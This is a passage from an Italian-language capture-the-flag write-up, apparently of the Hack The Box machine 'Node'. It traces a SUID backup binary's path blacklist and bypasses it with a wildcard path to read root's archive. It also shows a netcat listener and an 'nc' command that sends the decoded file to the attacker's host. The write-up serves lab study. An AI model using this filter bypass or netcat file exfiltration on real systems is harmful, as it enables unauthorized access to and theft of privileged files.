 ci da il seguente risultato 

```bash
strstr("/tmp", "..") = nil  
strstr("/tmp", "/root") = nil  
strchr("/tmp", ';') = nil  
strchr("/tmp", '&') = nil  
strchr("/tmp", '`') = nil  
strchr("/tmp", '$') = nil  
strchr("/tmp", '|') = nil  
strstr("/tmp", "//") = nil  
strcmp("/tmp", "/") = 1  
strstr("/tmp", "/etc") = nil  
strcpy(0xff98a1ab, "/tmp") = 0xff98a1ab
```

Come si può vedere, il programma sta filtrando la stringa del percorso della directory. Se includiamo una qualsiasi delle stringhe racchiuse nella funzione strchr o strstr come percorso di directory, ci ritroveremo con una troll face. Allo stesso modo, se il percorso della directory è un singolo "/", otteniamo anche una troll face . Quindi siamo autorizzati a utilizzare una barra rovesciata purché sia ​​inclusa come una stringa con altri caratteri.

```bash
tom@node:/tmp$ /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > root
tom@node:/tmp$ cat root | base64 --decode > root-decoded
```

Come detto più su in nella  nota è possibile decomprimere l'archivio direttamente sulla macchina, creando una cartella con un nome differente da root nel mio caso l'ho chiamata unzip_root e ho detto ad unzip di estrarre l'archivio li.


oppure lo scarichiamo sulla nostra macchina per aprile l'archivio come prima con 7z

Ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[~kali/htb/node]
└─# nc -lvp 1234 > root-decoded
listening on [any] 1234 ...
```

e dal server remoto eseguiamo

```
tom@node:/tmp$ nc 10.10.14.9 1234 < root-decoded
```


```bash
┌──(root㉿kali)-[~kali/htb/node]
└─# nc -lvp 1234 > root-decoded
listening on [any] 1234 ...
10.10.10.58: inverse host lookup failed: Unknown host
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.58] 53870

┌──(root㉿kali)-[~kali/htb/node]
└─# 7z x root-decoded

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i7-4750HQ CPU @ 2.00GHz (40661),ASM,AES-NI)

Scanning the drive for archives:
1 file, 237 bytes (1 KiB)

Extracting archive: root-decoded
--
Path = root-decoded
Type = zip
```